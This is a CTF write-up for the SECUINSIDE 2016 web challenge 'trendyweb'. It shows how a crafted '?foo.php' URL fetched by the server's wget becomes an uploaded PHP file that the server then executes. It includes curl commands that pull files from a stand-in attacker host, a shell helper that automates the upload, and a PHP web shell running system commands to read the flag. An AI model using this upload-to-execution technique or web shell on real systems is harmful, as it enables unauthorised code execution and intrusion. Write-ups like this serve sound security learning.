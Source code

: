```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/secuinside-ctf-trendyweb/
  - /blog/2016/07/10/secuinside-ctf-trendyweb/
date: "2016-07-10T14:32:36+09:00"
tags: [ "ctf", "writeup", "web", "php" ]
"target_url": [ "https://ctftime.org/event/335" ]
---
```


# SECUINSIDE CTF Quals 2016 web100: trendyweb

This CTF was diffcult, and it seemed to be not well-prepared. I want to see the graph of the number of problems.

Our team could solve only this.
But, considering the solved numbers, we needed to solve also `CYKOR_0000*`s and `noted`.

## solution

Upload your `.php` as `avatar.png%3fhoge.php` into the `/data/$sessId/` directory and execute it on the server.


You can upload files via the `system('/usr/bin/wget '.escapeshellarg($origUrl));`.
Make `http://your-host.example.com/avatar.png?foo.php` returns something, and call:

``` sh
$ curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?foo'
```

This makes the file on `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo`.
So if you use `image='http://your-host.example.com/avatar.png?foo.php`, it becomes `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo.php` and this is executed on the server when you request it.

This is enough to see the flag.
Define a utility function and explore it, you will found the executable which has the flag.

``` sh
execute_php() {
    cat > path/to/avatar.png
    key=$RANDOM
    curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?'$key'.php'
    curl -D- 'http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3f'$key'.php'
}
```

``` php
<?php
system('id', $retval);
system('pwd', $retval);
system('ls -l /', $retval);
system('stat /flag_is_heeeeeeeereeeeeee', $retval);
system('/flag_is_heeeeeeeereeeeeee', $retval); // => flag
?>
```
